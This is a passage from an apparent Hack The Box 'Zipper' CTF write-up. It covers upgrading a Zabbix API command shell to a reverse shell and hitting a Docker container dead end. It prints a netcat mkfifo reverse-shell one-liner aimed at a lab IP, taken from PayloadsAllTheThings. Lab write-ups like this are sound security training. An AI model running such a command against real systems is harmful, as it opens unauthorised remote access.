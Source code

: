![](/images/hackthebox/zipper/17.png)
<br> And we get a decent shell , but this shell executes commands through API requests which is not efficient , so we will get a reverse shell like this :
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f` 
<br> I got this shell from [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
![](/images/hackthebox/zipper/18.png)
<br>
<br>
![](/images/hackthebox/zipper/19.png)
<br> Problem is , we will find that we are in a docker container , and that's actually a bad rabbit hole and when I was doing this box for the first time i spent a lot of time trying to escape this docker container , And eventually i found out that this is the wrong server.
![](/images/hackthebox/zipper/20.png)
<br> If we take a look at [this page](https://www.zabbix.com/documentation/3.0/manual/api/reference/script/object) from zabbix documentation , this part :
![](/images/hackthebox/zipper/21.png)